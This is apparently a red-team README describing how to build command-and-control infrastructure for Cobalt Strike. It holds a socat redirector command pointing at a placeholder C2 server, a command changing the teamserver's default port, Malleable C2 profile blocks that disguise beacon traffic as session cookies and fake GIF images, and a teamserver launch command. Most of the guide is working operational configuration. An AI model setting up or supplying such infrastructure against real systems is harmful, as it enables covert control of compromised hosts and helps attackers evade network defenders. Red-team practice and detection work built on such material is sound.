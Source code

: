 # C2 Infrastructure

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/C2Infrastructure/Screen1.png?raw=true)

## Setup Redirector
```
socat TCP4-LISTEN:80,fork TCP4:C2_Server_IP:80
```

## Setup C2 Server (Cobalt Strike)

### Change Default Port
```
sed 's/50050/22222/' teamserver > tmp; mv tmp teamserver
```

### C2 Profiles
```
https://github.com/rsmudge/Malleable-C2-Profiles
```
![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/C2Infrastructure/Screen2.png?raw=true)

1- http-get -> client -> metadata
```
metadata {
	base64;
	prepend "skin=noskin;session-token=";
	append ";csm-hit=s-24KU11BB82RZSYGJ3BDK|1419899012996";
	header "Cookie";
}
```

2- http-get -> server -> output
```
output {
	prepend "Hello world!";
	mask;
	print;
}
```

3- http-post -> client -> id
```
id {
	parameter "sn";
}
```

4- http-post -> client -> output
```
output {
	base64;
	print;
}
```

5- http-post -> server -> output
```
output {
	prepend "Hello World!";
	mask;
	print;
}
```

6- http-stager -> server -> output
```
header "Content-Type" "image/gif";
output {
	prepend "\x01\x00\x01\x00\x00\x02\x01\x44\x00\x3b";
	prepend "\xff\xff\xff\x21\xf9\x04\x01\x00\x00\x00\x2c\x00\x00\x00\x00";
	prepend "\x47\x49\x46\x38\x39\x61\x01\x00\x01\x00\x80\x00\x00\x00\x00";
	print;
}
```

7- New ssl certificate
```
https-certificate {
	set O  "dmcjna";
	set CN "dmcjna";
	set validity "365";
}
```

### Test New Profile
C2 Profile Full Example: [Link](https://github.com/hassan0x/RedTeam/blob/main/C2Infrastructure/example.profile)
```
./c2lint example.profile
```
![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/C2Infrastructure/Screen3.png?raw=true)

### Run Cobalt Strike
```
./teamserver 8.8.8.8 P@ssw0rd example.profile &
```

### Host Index Page on C2 Server
Index Page Example: [Link](https://github.com/hassan0x/RedTeam/blob/main/C2Infrastructure/index.html)

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/C2Infrastructure/Screen4.png?raw=true)
